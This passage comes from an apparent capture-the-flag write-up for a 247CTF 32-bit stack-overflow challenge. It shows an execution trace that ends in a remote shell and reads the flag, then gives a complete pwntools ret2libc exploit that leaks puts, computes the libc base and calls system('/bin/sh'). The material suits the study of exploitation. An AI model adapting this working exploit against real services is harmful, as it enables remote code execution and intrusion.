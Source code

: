 And an execution trace:

```shell
$ python3 exploit-remote.py
[*] Connected to ad520e503a0ec4e0.247ctf.com:50341
[*] Payload sent: 56B
[*] puts leaked address: 0xf7d5d360
[*] libc base address: 0xf7cf6000
[*] Payload sent: 56B
[*] Interactive shell

$ ls
chall
flag_[0-9]+.txt
$ cat flag_[0-9]+.txt
247CTF{[a-f0-9]{32}}
$ exit
```

## pwntools

This blog post is already long enough, so I’ll only show how `exploit-remote.py` script looks when ported to pwntools. I’ll leave all details up to you but the library is pretty straightforward:

```python
import pwn

hostname = 'ad520e503a0ec4e0.247ctf.com'
port = 50341

io = pwn.remote(hostname, port)

elf = pwn.ELF('non_executable_stack')
libc = pwn.ELF('libc6-i386_2.27-3ubuntu1_amd64.so')

payload = b'A' * 0x2C
payload += pwn.p32(elf.plt['puts'])
payload += pwn.p32(elf.symbols['main'])
payload += pwn.p32(elf.got['puts'])

io.recvline()
io.sendline(payload)
pwn.log.info('Payload sent: {}B'.format(len(payload)))
io.recvline()
puts_leak = pwn.u32(io.recvline()[:4])
pwn.log.info('puts leaked address: {:#x}'.format(puts_leak))

libc_base = puts_leak - libc.symbols['puts']
pwn.log.info('libc base address: {:#x}'.format(libc_base))
libc_system = libc_base + libc.symbols['system']
libc_exit = libc_base + libc.symbols['exit']
libc_shell = libc_base + next(libc.search(b'/bin/sh\x00'))

payload = b'A' * 0x2C
payload += pwn.p32(libc_system)
payload += pwn.p32(libc_exit)
payload += pwn.p32(libc_shell)

io.recvline()
io.sendline(payload)
pwn.log.info('Payload sent: {}B'.format(len(payload)))
io.recvline()
io.interactive()
```
